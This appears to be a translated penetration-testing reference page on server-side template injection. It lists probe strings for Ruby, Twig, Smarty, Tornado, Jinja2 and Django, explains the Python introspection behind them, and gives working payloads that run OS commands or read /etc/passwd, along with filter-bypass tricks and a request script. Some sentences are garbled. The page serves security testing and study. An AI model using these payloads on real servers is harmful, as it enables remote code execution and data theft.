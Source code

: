 Template injection
========================================

Introduction
----------------------------------------
The template engine is used to render content using dynamic data. This context data is usually controlled by the user and formatted by the template to generate web pages, emails, etc. The template engine allows powerful language expressions to be used in templates to present dynamic content by processing context data using code constructs (such as conditional statements, loops, etc.). If an attacker has control over the template to be rendered, they will be able to inject expressions that expose context data, or even run arbitrary commands on the server.

Test Method
----------------------------------------
- Determine the engine used
- View engine-related documentation to determine its security mechanism and its own functions and variables
- Need to find the attack surface and try to attack

Test cases
----------------------------------------
- Simple mathematical expression, ``{{ 7+7 }} => 14``
- String expression ``{{ "ajin" }} => ajin``
- Ruby
- ``<%= 7 * 7 %>``
- ``<%= File.open('/etc/passwd').read %>``
- Java
- ``${7*7}``
- Twig
- ``{{7*7}}``
- Smarty
- ``{php}echo `id`;{/php}``
- AngularJS
- ``$eval('1+1')``
- Tornado
- Reference module ``{% import module %}``
- => ``{% import os %}{{ os.popen("whoami").read() }}``
- Flask/Jinja2
- ``{{ config }}``
- ``{{ config.items() }}``
- ``{{get_flashed_messages.__globals__['current_app'].config}}``
- ``{{''.__class__.__mro__[-1].__subclasses__()}}``
- ``{{ url_for.__globals__['__builtins__'].__import__('os').system('ls') }}``
- ``{{ request.__init__.__globals__['__builtins__'].open('/etc/passwd').read() }}``
- Django
- ``{{ request }}``
- ``{% debug %}``
- ``{% load module %}``
- ``{% include "x.html" %}``
- ``{% extends "x.html" %}``

Target
----------------------------------------
- Create an object
- File reading and writing
- Remote file contains
- Information leakage
- Elevation of Rights

Related attributes
----------------------------------------

``__class__``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
New classes in python (i.e. classes that display inheriting object objects) have a property ``__class__`` used to get the corresponding class of the current instance, such as ``"".__class__`` to get the corresponding class of the string instance. kind

``__mro__``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
The ``__mro__`` property of a class object in python will return a tuple object, which contains all the inherited base classes of the current class object. The order of elements in the tuple is the order found by MRO (Method Resolution Order).

``__globals__``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
All global variables of the function are saved. In use, you can use ``__init__`` to get the object's function and obtain the ``file```````, etc. modules such as ```` to proceed to the next step. use

``__subclasses__()``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Python's new class retains references to all its subclasses. The ``__subclasses__()` method returns references to all the living subclasses of the class (a class object reference, not an instance).

Because all classes in python inherit object, you can get the object of the desired class by calling the ``__subclasses__()`` method of the object class object.

Common Payloads
----------------------------------------
- ``().__class__.__bases__[0].__subclasses__()[40](r'/etc/passwd').read()``
- ``().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls /").read()' )``

Bypassing Tips
----------------------------------------

String stitching
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
``request['__cl'+'ass__'].__base__.__base__.__base__['__subcla'+'sses__']()[60]``

Bypass using parameters
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::

params = {
'clas': '__class__',
'mr': '__mro__',
'subc': '__subclasses__'
}
data = {
"data": "{{''[request.args.clas][request.args.mr][1][request.args.subc]()}}"
}
r = requests.post(url, params=params, data=data)
print(r.text)

Reference link
----------------------------------------
- `Server-side template injection <https://zhuanlan.zhihu.com/p/28823933>`_
- `Execute arbitrary code with Python features <http://blog.knownsec.com/2016/02/use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/>`_
